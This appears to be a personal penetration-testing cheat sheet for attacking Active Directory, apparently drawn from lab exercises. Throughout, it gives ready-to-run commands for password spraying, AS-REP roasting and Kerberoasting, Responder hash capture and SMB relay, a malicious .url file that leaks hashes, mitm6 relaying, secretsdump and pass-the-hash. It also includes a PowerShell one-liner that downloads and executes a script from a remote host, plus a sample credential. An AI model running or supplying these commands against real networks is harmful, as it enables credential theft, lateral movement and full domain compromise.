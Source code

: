 <h1> Kerbrute </h1><br>
Only do usernames as to not lockout users <br>
Located in my downloads <br>
./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.103.225 users.txt <br> <br>
For password spray - kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
<br>
<h1> Query Ticket auth with no password </h1><br>
take valid usernames from kerbrute and place into new user file <br>
sudo python3 /home/kali/impacket/examples/GetNPUsers.py -dc-ip 10.10.103.225 spookysec.local/ -usersfile users.txt -format john -outputfile hashes <br>
cat hashes - look for any usernames with hashes here to crack <br>
<br>
To crack this with hashcat, you need to add a 23 to the hash between rep and name - so e.g $krb5asrep$23$asdas - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat<br>
hashcat mode -m 18200 <br>
<h1> Username grabbing via NULL session </h1> <br>
enum4linux -U DCIP  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" <br>
crackmapexec smb 172.16.5.5 --users <br>
Can now spray passwords with kerbrute - kerbrute passwordspray -d domain --dc IP validusers.txt Welcome1
<br>

<h1>LLMNR Poisoning</h1><br>
fallback with share that is unknown, device reaches out with broadcast to see if any device knows the share, malicious machine asks for hash to direct user <br>
<br>
Responder is used to capture the hashes (type locate responder to find the path) - python3 responder.py -I eth0 -rdwv <br>
Run tool first thing in morning on a pen test and right after lunch <br>
<br>
Next you'll want to crack the hashes - Hashcat runs better on normal PC and not VM due to using GPU. Copy whole hash, add to text file.
<br>
hashcat -m 5600 file.txt rockyou.txt --force ------  -m 5600 stands for AD hash NetNTLMv2 <br>
<br>
<h1>SMB Relay</h1><br>
Instead of cracking hashes from responder, can relay hashes to another machine. SMB signing has to be disabled on the target and relayed creds must be admin on machine.<br>
<b> to work have to go to responder.conf and turn off SMB and HTTP</b> <br>
Run Responder.py and also now configure ntlmrelayx.py (locate ntlmrelay) python3 ntlmrelayx.py -tf targets.txt -smb2support <br>
<br>
Can gain shell access with pw - run psexec (metasploit module) - need domain, user and pass, may need to try the module several times <br>
Could also use - sudo python3 smbexec.py domain/username:'password'@IP <br>
Or psexec.py domain/username:password@IP <br>
<br>
<h1>Pass Back Attack </h1> <br>
This is an LDAP attack (anything that uses LDAP to connect to AD such as printers) <br>
on LDAP server address within the settings configuration if you change the IP address of the LDAP server to your machine and setup a listerner (responder or netcat) the password will be sent over in cleartext
<br>
<br>
<h1> Force Hashes </h1> <br>
If you already have a user account and can write to a share that has alot of popularity, you can create a file that uses a fake icon file linking back to your IP running responder <br>
name the file "@something.url" and include contents <br>
[InternetShortcut]
URL=https://securify.nl
IconIndex=0
IconFile=\\<responder ip>\leak\leak.ico<br>
  run responder and anyone who visits share will send hash<br>

<h1> MITM6 </h1> <br>
github.com/got-it/mitm6 <br>
mitm6 -I eth0 -d domain.local <br>
Now setup relay attack with ntlmrelayx - ntlmrelayx.py -6 -t ldaps://domainip -wh fakewpad.domain.local -l lootme <br>

<h1>Further strats </h1><br>
Look for web portals that may have default creds, anything on there that shows AD creds? <br>
Check GPO's or hardcoded creds within XML files etc <br>
Look on printers <br>

<h1> Post exploitation <h1><br>
  <h2> Domain Enumeration with Powershell </h2> <br>
  . .\PowerView.ps1 (enter) <br>
  Get-NetDomain (enter)<br>
  Get-DomainPolicy<br>
  Get-NetUser (sometimes passwords are placed in Description) -- Get-NetUser | select description<br>
  
  <h1> Pass the password </h1><br>
  crackmapexec smb IP/CIDR -u user -d domain -p password <br>
  This will loop through the IPs specified to see what devices the user can authenticate against. <br>
  <br>
  Then use smbclient to look into shares <br>
  smbclient -L 172.16.7.50 -U AB920 -W inlanefreight.local
  
  <h1> Pass the Hash </h1><br>
  Crackmapexec IP -u username -H hash --local-auth <br>
  <br>
  <h1> Find valid Domain Admins with lower account </h1> <br>
  python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
  
 <br>
  <h1> Secrets Dump </h1> <br>
  Any machine that allows login via SMB perform a secrets dump on the machine to dump out the local hashes should the account be a administrator <br>
  secretsdump.py domain/username:password@ip
  <br>
  
  <h1> Kerboeroasting </h1><br>
  Goal here is to get a TGS (Service Ticket) to decrypt servers account hash<br>
  python3 /home/kali/impacket/examples/GetUsersSPN.py domain/username:password -dc-ip IP -request <br> (doesnt always need password <br>
  Hashcat -m 13100 textfile.txt wordlist.txt <br>
  <br>
  <h2> Kerbroasting from windows </h2><br>
 
  Run Powerview (download fromn machine that can access the internet - IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.160:8000/PowerView.ps1') <br>
 Import-Module .\PowerView.ps1 <br>
Get-DomainUser * -spn | select samaccountname <br>
  Now target account - Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

